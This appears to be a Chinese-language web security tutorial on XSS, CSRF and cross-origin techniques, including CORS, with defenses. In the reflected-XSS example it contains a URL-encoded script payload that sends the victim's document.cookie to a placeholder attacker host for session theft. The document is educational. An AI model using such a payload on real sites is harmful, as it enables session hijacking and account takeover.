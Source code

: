 # 安全
## XSS攻击（跨站脚本攻击）
XSS(Cross Site Scripting)，跨站脚本攻击，XSS是常见的Web攻击技术之一。所谓的跨站脚本攻击指得是：恶意攻击者往Web页面里注入恶意script代码，用户浏览这些网页时，就会执行其中的恶意代码，可对用户进行盗取cookie信息、会话劫持等各种攻击。
### 反射型漏洞     
**一，例子说明**：    

1）通过程序参数输出传递的参数到HTML页面，则打开下面的网址将会返回一个消息提示：
请求：

```
http://你的网站/xss/message.php?send=Hello,World www.111cn.net!
```
返回：

```
Hello,World www.111cn.net!
```
2）如果此程序没有经过过滤等安全措施，则它将会很容易受到攻击。假如我们在原程序的URL的参数为，替换为我们用来测试的代码：
请求：

```
http://www.111cn.net /xss/message.php?send=<script>alert(‘xss’)</script>
```
返回：

```
<script>alert(‘xss’)</script>
```
这样，用户在浏览器打开的时候，就会运行我们的弹框了。由于这种漏洞需要发送一个包含了嵌入式JavaScript代码的请求，随后这些代码被反射给了发出请求的用户，因此被称为反射型XSS。攻击有效符合分别通过一个单独的请求与响应进行传送和执行，因为也被称为一阶XSS。    

**二，攻击案例：**
1. 用户正常登录Web应用程序，登录成功会得到一个会话信息的cookie：

```
Set-cookie:sessId = f16e1035c301aa099c971682d806c0c7 f16e1035c301aa099c971682d806c0c7
```

2. 攻击者将含有攻击代码的URL发送给被攻击人；

```
http://你的网站/xss/message.php?send=%3Cscript%3Edocument.write(‘%3Cimg%20height=0%20width=0%20src=%22 http://hacker.你的网站/xss/cookie_save.php%3Fcookie=%3D’%20+%20encodeURL(document.cookie)%20+%20’%22/%3E’)%3C/script%3E
```

3. 用户打开攻击者发送过来的ULR
4. Web应用程序执行用户发出的请求，同时也会执行该URL中所含的攻击者的JavaScript代码；
5. 例子中攻击者使用的攻击代码作用是将用户的cookie信息发送到cookie_save.php这个文件来记录下来；
6. 攻击者在得到用户的cookie信息后，将可以利用这些信息来劫持用户的会话。以该用户的身份进行登录     

### 存储式漏洞   
该类型是应用最为广泛而且有可能影响到Web服务器自身安全的漏洞，骇客将攻击脚本上传到Web服务器上，使得所有访问该页面的用户都面临信息泄漏的可能，其中也包括了Web服务器的管理员。
简单来说明一下存储型XSS的攻击基本流程:
1. 比如在某个论坛提供留言板功能，黑客在留言板内插入恶意的html或者Javascript代码，并且提交。
2. 网站后台程序将留言内容存储在数据中
3. 然后一个用户也访问这个论坛，并刷新了留言板，这时网站后台从数据库中读取了之前黑客的留言内容，并且直接插入在html页面中，这就可能导致了：黑客留言的脚本本身应该作为内容显示在留言板的，然后此时可能黑客的留言脚本被浏览器解释执行了。
4. 黑客的脚本可以用来他想要做的事情。例如通过javascript获取用户的cookie，根据这个cookie窃取用户信息，例如重新更改页面内容，假装让客户输入用户名，密码，然后提交到黑客的服务器等。
### 防御手段
不管是反射型还是存储型，XSS攻击的防御方法主要是两种 ：    
**一，对输入（和UR参数）进行过滤**   
**二，对输出进行编码**    
也就是对提交的所有内容进行过滤，对url中的参数进行过滤，过滤掉会导致脚本执行的相关内容；然后对动态输出到页面的内容进行html编码，使脚本无法在浏览器中执行。虽然对输入过滤可以被绕过，但是也还是会拦截很大一部分的XSS攻击。    
## CSRF
CSRF（Cross-site request forgery）跨站请求伪造，是一种对网站的恶意利用。尽管听起来像跨站脚本（XSS），但它与XSS非常不同，CSRF是利用了系统对页面浏览器的信任，XSS则利用了系统对用户的信任。。与XSS攻击相比，CSRF攻击往往不大流行（因此对其进行防范的资源也相当稀少）和难以防范，所以被认为比XSS更具危险性。        

**攻击案例：**    
1. 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；
2. 在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；
3. 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；
4. 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；
5. 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。      

**防御手段：**       

目前防御 CSRF 攻击主要有三种策略：    

**1. 验证 HTTP Referer 字段：**    

根据 HTTP 协议，在 HTTP 头中有一个字段叫 Referer，它记录了该 HTTP 请求的来源地址。    
在通常情况下，访问一个安全受限页面的请求来自于同一个网站，比如需要访问 http://bank.example/withdraw?account=bob&amount=1000000&for=Mallory，用户必须先登陆 bank.example，然后通过点击页面上的按钮来触发转账事件。这时，该转帐请求的 Referer 值就会是转账按钮所在的页面的 URL，通常是以 bank.example 域名开头的地址。而如果黑客要对银行网站实施 CSRF 攻击，他只能在他自己的网站构造请求，当用户通过黑客的网站发送请求到银行时，该请求的 Referer 是指向黑客自己的网站。因此，要防御 CSRF 攻击，银行网站只需要对于每一个转账请求验证其 Referer 值，如果是以 bank.example 开头的域名，则说明该请求是来自银行网站自己的请求，是合法的。如果 Referer 是其他网站的话，则有可能是黑客的 CSRF 攻击，拒绝该请求。      

**2. 在请求地址中添加 token 并验证：**    

CSRF 攻击之所以能够成功，是因为黑客可以完全伪造用户的请求，该请求中所有的用户验证信息都是存在于 cookie 中，因此黑客可以在不知道这些验证信息的情况下直接利用用户自己的 cookie 来通过安全验证。要抵御 CSRF，关键在于在请求中放入黑客所不能伪造的信息，并且该信息不存在于 cookie 之中。可以在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证这个 token，如果请求中没有 token 或者 token 内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。    

**3. 在 HTTP 头中自定义属性并验证：**     

这种方法也是使用 token 并进行验证，和上一种方法不同的是，这里并不是把 token 以参数的形式置于 HTTP 请求之中，而是把它放到 HTTP 头中自定义的属性里。通过 XMLHttpRequest 这个类，可以一次性给所有该类请求加上 csrftoken 这个 HTTP 头属性，并把 token 值放入其中。这样解决了上种方法在请求中加入 token 的不便，同时，通过 XMLHttpRequest 请求的地址不会被记录到浏览器的地址栏，也不用担心 token 会透过 Referer 泄露到其他网站中去。
# 跨域
**什么是跨域：**    
跨域问题的产生，源于浏览器的安全设置。浏览器对于javascript的同源策略的限制,例如a.cn下面的js不能调用b.cn中的js,对象或数据(因为a.cn和b.cn是不同域),这样可以一定程序上防止恶意程序的入侵，但也就引起了有正常需求的跨域问题了。

**同源策略：**    
请求的url地址,必须与浏览器上的url地址处于同域上,也就是域名,端口,协议相同，只要有一个不同，就产生了跨域问题。如果我在本地上的域名是study.cn,请求另外一个域名一段数据，这个时候在浏览器上会报错。
![image](https://raw.githubusercontent.com/labsInsight/blogs/master/Resources/3-safe-cross.png)
    
跨域的解决方案有很多，目前常用的有：
1. **图片ping或script标签跨域**    
一个网页可以从任何网页加载图像，不用担心跨域不跨域，所以，我们就可以利用图片不受“同源限制”这一点进行跨域通信。     
因为，我们可以利用JS创建一个新的Image对象，并把src属性设置为指向请求的地址，通过监听onload和onerror事件来确定是否接受到了响应。响应的数据可以是任意内容，但通常是像素图或204响应。   
这种方式优点是很明显的：兼容性非常好，缺点就是：只能发生GET请求，而且无法获取响应文本。
2. **JSONP跨域**    
jsonp 全称是JSON with Padding,是为了解决跨域请求资源而产生的解决方案,是一种依靠开发人员创造出的一种非官方跨域数据交互协议。   
利用<script>元素的这个开放策略，网页可以得到从其他来源动态产生的 JSON 资料，而这种使用模式就是所谓的 JSONP。用 JSONP 抓到的资料并不是 JSON，而是任意的JavaScript，用 JavaScript 直译器执行而不是用 JSON 解析器解析。
3. **CORS**    
跨域资源共享（ CORS ）机制允许 Web 应用服务器进行跨域访问控制，从而使跨域数据传输得以安全进行。浏览器支持在 API 容器中（例如 XMLHttpRequest 或 Fetch ）使用 CORS，以降低跨域 HTTP 请求所带来的风险。CORS 需要客户端和服务器同时支持。目前，所有浏览器都支持该机制。    
与 JSONP 不同，CORS 除了 GET 要求方法以外也支持其他的 HTTP 要求。服务器一般需要增加如下响应头的一种或几种：

```
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: POST, GET, OPTIONS
Access-Control-Allow-Headers: X-PINGOTHER, Content-Type
Access-Control-Max-Age: 86400
```
跨域请求默认不会携带Cookie信息，如果需要携带，请配置下述参数：

```
"Access-Control-Allow-Credentials": true
"withCredentials": true
```

4. **window.name+iframe**    
window.name通过在iframe（一般动态创建i）中加载跨域HTML文件来起作用。然后，HTML文件将传递给请求者的字符串内容赋值给window.name。然后，请求者可以检索window.name值作为响应。
5. **window.postMessage()**    
HTML5新特性，可以用来向其他所有的 window 对象发送消息。需要注意的是我们必须要保证所有的脚本执行完才发送 MessageEvent，如果在函数执行的过程中调用了它，就会让后面的函数超时无法执行。
6. **修改document.domain跨子域**    
前提条件：这两个域名必须属于同一个基础域名!而且所用的协议，端口都要一致，否则无法利用document.domain进行跨域，所以只能跨子域。 在根域范围内，允许把domain属性的值设置为它的上一级域。例如，在”aaa.xxx.com”域内，可以把domain设置为 “xxx.com” 但不能设置为 “xxx.org” 或者”com”。
7. **WebSocket**    
WebSocket protocol 是HTML5一种新的协议。它实现了浏览器与服务器全双工通信，同时允许跨域通讯，是server push技术的一种很棒的实现。
8. **代理**    
同源策略是针对浏览器端进行的限制，可以通过服务器端来解决该问题：    
DomainA客户端（浏览器） ==> DomainA服务器 ==> DomainB服务器 ==> DomainA客户端（浏览器）   
### CORS跨域设置案例
我司采用的是CORS方案来进行跨域。    
CORS需要浏览器和服务器同时支持。整个CORS通信过程，都是浏览器自动完成，不需要用户参与。对于开发者来说，CORS通信与同源的AJAX通信没有差别，代码完全一样。浏览器一旦发现AJAX请求跨源，就会自动添加一些附加的头信息，有时还会多出一次附加的请求，但用户不会有感觉。**因此，实现CORS通信的关键是服务器。只要服务器实现了CORS接口，就可以跨源通信**。        
    
浏览器将CORS请求分成两类：简单请求（simple request）和非简单请求（not-so-simple request）。  
只要同时满足以下两大条件，就属于简单请求。

```
只要同时满足以下两大条件，就属于简单请求。

（1) 请求方法是以下三种方法之一：
    HEAD
    GET
    POST
    
（2）HTTP的头信息不超出以下几种字段：
    Accept
    Accept-Language
    Content-Language
    Last-Event-ID
    Content-Type：只限于三个值application/x-www-form-urlencoded、multipart/form-data、text/plain
```
#### 简单请求
对于简单请求，浏览器直接发出CORS请求。具体来说，就是在头信息之中，增加一个Origin字段。    

```
GET /cors HTTP/1.1
Origin: http://api.bob.com
Host: api.alice.com
Accept-Language: en-US
Connection: keep-alive
User-Agent: Mozilla/5.0...
```

服务器根据这个值，决定是否同意这次请求。    
如果Origin指定的源，不在许可范围内，服务器会返回一个正常的HTTP回应。浏览器发现，这个回应的头信息没有包含Access-Control-Allow-Origin字段，就知道出错了，从而抛出一个错误，被XMLHttpRequest的onerror回调函数捕获。注意，这种错误无法通过状态码识别，因为HTTP回应的状态码有可能是200。    
如果Origin指定的域名在许可范围内，服务器返回的响应，会多出几个头信息字段。

```
Access-Control-Allow-Origin: http://api.bob.com
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: FooBar
Content-Type: text/html; charset=utf-8
```

#### 非简单请求
非简单请求的CORS请求，会在正式通信之前，增加一次HTTP查询请求，称为"预检"请求（preflight）。

浏览器先询问服务器，当前网页所在的域名是否在服务器的许可名单之中，以及可以使用哪些HTTP动词和头信息字段。只有得到肯定答复，浏览器才会发出正式的XMLHttpRequest请求，否则就报错。    

服务器收到"预检"请求以后，检查了Origin、Access-Control-Request-Method和Access-Control-Request-Headers字段以后，确认允许跨源请求，就可以做出回应。



Cookie、Session、Token、JWT的不同？
https://mp.weixin.qq.com/s/3eNzIw3wiRAMA0otSCLPZA